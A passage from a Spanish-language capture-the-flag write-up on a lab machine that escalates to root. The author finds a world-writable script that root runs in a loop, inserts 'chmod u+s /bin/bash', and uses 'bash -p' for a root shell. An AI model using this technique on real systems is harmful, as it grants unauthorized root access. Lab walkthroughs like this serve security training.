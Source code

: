 Si listamos los archivos que hay.

```
drwxrwxrwx 1 root    root        4096 Aug 20 15:49 .
drwxr-xr-x 1 root    root        4096 Apr 15 07:22 ..
drwx------ 2 penguin hackpenguin 4096 Aug 20 15:39 .cache
drwxr-xr-x 3 penguin hackpenguin 4096 Aug 20 15:48 .local
-rwxrwxrwx 1 root    root          22 Aug 20 15:47 archivo.txt
-rwxrwxrwx 1 root    root          32 Aug 20 15:49 script.sh
```

Vemos que 2 archivos son de `root` pero los podemos editar y si ahora vamos a ver los procesos.

```shell
ps -aux
```

Info:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1 29.1  0.0   2892  1920 ?        Ss   15:15  10:04 /bin/sh -c service apache2 start && service ssh start && while true; do /bin/bash /home/hackpenguin/script.sh; done
root          25  0.1  0.0   6780  4580 ?        Ss   15:15   0:03 /usr/sbin/apache2 -k start
www-data      26  4.3  0.0 1933812 7540 ?        Sl   15:15   1:29 /usr/sbin/apache2 -k start
www-data      27  4.1  0.0 1999332 7524 ?        Sl   15:15   1:27 /usr/sbin/apache2 -k start
root          92  0.0  0.0  15436  5588 ?        Ss   15:15   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root      766251  0.0  0.1  16732 10676 ?        Ss   15:39   0:00 sshd: penguin [priv]
penguin   766862  0.1  0.0  16992  7656 ?        D    15:39   0:00 sshd: penguin@pts/0
penguin   766874  0.0  0.0   2892  1536 pts/0    Ss   15:39   0:00 -sh
penguin   768265  0.0  0.0   5052  3840 pts/0    S    15:39   0:00 /bin/bash
```

Vemos que `root` esta ejecutando el `script.sh` (`root 1 29.1 0.0 2892 1920 ? Ss 15:15 10:04 /bin/sh -c service apache2 start && service ssh start && while true; do /bin/bash /home/hackpenguin/script.sh; done`) por lo que haremos lo siguiente.

```shell
nano script.sh

#Dentro del nano
#!/bin/bash
chmod u+s /bin/bash
```

Lo guardamos y esperaremos a que lo ejeucte `root`, cuando lo haya hecho si vemos lo siguiente.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

Vemos que funciono y ya podremos ser `root` de la siguiente forma.

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que habriamos terminado la maquina.
